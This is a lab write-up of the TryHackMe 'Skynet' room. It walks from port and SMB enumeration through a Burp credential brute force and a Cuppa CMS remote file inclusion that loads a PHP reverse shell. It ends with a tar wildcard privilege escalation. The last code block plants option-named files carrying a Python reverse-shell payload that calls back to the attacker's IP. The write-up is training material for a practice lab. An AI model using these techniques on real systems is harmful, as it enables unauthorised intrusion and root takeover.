

## Introduction

This writeup covers my approach to the TryHackMe room **Skynet**, from initial enumeration to privilege escalation. 

This room was a good exercise in combining findings from multiple services and following leads acrosss SMB, web applications, and Linux privilege escalation. 

## Environment 

This room was completed using the provided Attackbox from TryHackMe


## Enumeration 

I started with an Nmap scan to identify open ports and exposed services on the target. 

```bash 
 nmap -sV -p- -v <IP> 

```

I used full TCP port scan and service version detection to ensure that no non-standard ports were missed during initial enumeration.




The most interesting findings were: 

* `HTTP on port 80`
* `SMB on port 139 and 445`
* `Mail-related services, POP3 and IMAP`

Based on these results, I decided to begin with web and SMB enumeration, as both appeared to offer useful entry points. 

## Web Enumeration 

I first browsed the web application manually. At this stage, nothing particularly useful stood out.



I moved on to directory enumeration using Gobuster.

```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u <IP> 
``` 


Gobuster identified several directories, including: 

`/admin`
`/config`
`/squirrelmail` 

The `/admin` and `/config` paths did not reveal anything useful at this point. However `/squirrelmail` was more interesting because the Nmap scan had already shown exposed mail services 



I tried a few common login combinations in SquirrelMail, but none worked. I therefore decided to leave it temporarily and move on.


## SMB 

Because SMB was exposed on ports 139 and 445, I Checked whether any shares were accessible without authentication.

```bash
smbclient -L //<IP> -N 
```



The share listing revealed two interesting shares: 
`anonymous`
`milesdyson` 

The `anonymous` share was the natural place to start, since it suggested that it might be accessible without credentials.




Inside the share, I found an `attention.txt` file and a `logs` directory. The logs directory contained three files:

`log1.txt`
`log2.txt`
`log3.txt` 

Based on file size, `log1.txt` appeared to be the only log file containing information.



The `attention.txt` file mentioned **Miles Dyson**, which gave me a potential user to focus on.



`log1.txt` appeared to contain a list of possible passwords. Combined with the earlier reference to **Miles Dyson**, this gave me both a likely username and a set of password candidates to test.


## Credential Testing Against SquirrelMail 

Using `milesdyson` as a likely username and `log1.txt` as a password list, I returned to SquirrelMail and reviewed the login request in Burp Suite before testing the credentials.



I then launched a `Sniper attack` in Burp Suite, which resulted in a successful login.







The inbox contained a password reset email, which turned out to provide SMB credentials.



I then used the credentials to authenticate as `milesdyson` over SMB, which successfully granted access to the share.

```bash
smbclient //<IP>/milesdyson -U milesdyson
```



Inside the share, the `notes` directory contained a file named `important.txt`, which looked worth checking next.



The note referenced `/45kra24zxs28v3yd`, which appeared to be a hidden path and became the next point of interest.



The path returned a valid page, but nothing useful stood out at first. I therefore continued with another round of Gobuster enumeration.



That enumeration revealed `/administrator`, which led to the login page for `Cuppa CMS`.




# Exploitation of Cuppa CMS

At this point, I was not familiar with `Cuppa CMS`. I first tested a few likely login combinations, including `milesdyson`, but none of them worked. 

Since that did not lead anywhere, I started researching known vulnerabilities related to Cuppa CMS.



After some research, I found an interesting entry on Exploit-DB describing a `Remote File Inclusion` vulnerability.




To validate the vulnerability, I first tested the parameter with a local file reference to check whether file disclosure was possible.



The test confirmed that the file inclusion vulnerability was present.

To exploits this, I prepared a PHP reverse shell based on the PentestMonkey template an hosted it from my machine using a Python HTTP server. I also started a Netcat listener. 







I then supplied the hosted PHP reverse shell through the URL parameter. This triggered the remote file inclusion and gave me a reverse shell.




After receiving the shell, I upgraded it to a more stable interactive shell to make further enumeration easier.



I then moved to `Miles Dyson’s` home directory and found the `user.txt` flag.



## Local Enumeration 

After gaining initial access, I began local enumeration to look for privilege escalation opportunities. 

I startes with basic checks, including: 

* `Current user and group memberships`
* `sudo -l`
* `SUID binaries`
* `Web application files`
* `Scheduled tasks`  
 
The `sudo -l` command required a password, and the SUID binaries did not reveal anything immediately useful. I continued by examining `/var/www/html` for credentials or misconfigurations.

I came across database credentials in: 
```bash
/var/www/html/45kra24zxs28v3yd/administrator/configuration.php
```



I used these credentials to authenticate to the local MYSQL database.





I found an administrator account and password hash. However, this did not lead to a useful escalation path, so I moved on. 


## Privilege Escalation 

 Next, I then checked scheduled tasks by reviewing `/etc/crontab`.



This revealed a backup script running as root.



The script archived the contents of `/var/www/html` into `/home/milesdyson/backups/backup.tgz`. At first, this did not seem particularly useful, but after some time spent searching, I came across a tar wildcard vulnerability, which could be a possible privilege escalation path.  




To trigger the tar wildcard vulnerability, I created the files `--checkpoint=1` and `--checkpoint-action=exec=<reverse-shell>` in `/var/www/html`, causing `tar` to interpret them as command-line options and execute the payload when the cron job ran.

```bash 
echo "" > '--chechpoint=1'
echo "" > '--checkpoint-action=exec=python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")"'
```





Shortly afterwards, the cron job executed and I received a reverse shell back as `root`



From there, I was able to read the root flag.


